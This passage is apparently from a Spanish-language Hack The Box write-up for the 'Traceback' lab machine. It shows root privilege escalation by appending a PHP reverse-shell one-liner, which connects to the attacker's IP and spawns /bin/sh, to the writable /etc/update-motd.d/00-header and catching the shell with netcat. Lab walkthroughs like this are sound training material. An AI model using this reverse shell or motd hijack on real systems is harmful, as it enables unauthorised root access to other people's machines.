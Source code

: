 Nos conectamos por SSH con el usuario `sysadmin`

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh -i ssh-keys sysadmin@traceback.htb

#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'ssh-keys': 

Welcome to Xh4H land 

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

Antes de modificar el archivo `00-header`para escalar privilegios, creamos una sesión con netcat en el puerto 4444 

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #nc -lvp 444

listening on [any] 4444 ...
```

Vamos a la carpeta `/etc/update-motd.d/` y modificamos el archivo `00-header` en el cual vamos a incluir una shell reversa en PHP al final del archivo.

```bash
...
[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\nWelcome to Xh4H land \n" 
php -r '$sock=fsockopen("10.10.14.21",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
```

Rápidamente nos conectamos de nuevo por SSH al usuario `sysadmin`

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh -i ssh-keys sysadmin@traceback.htb

#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'ssh-keys':
```

Finalmente, revisamos la sesión con netcat y ya tenemos acceso como `root`, así que lo único que nos queda es imprimir la flag

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #nc -lvp 444

listening on [any] 4444 ...
connect to [10.10.14.21] from traceback.htb [10.10.10.181] 43624
/bin/sh: 0: can access tty; job control turned off
# whoami
root
# cat /root/root.txt
3ac2e9...........................
```
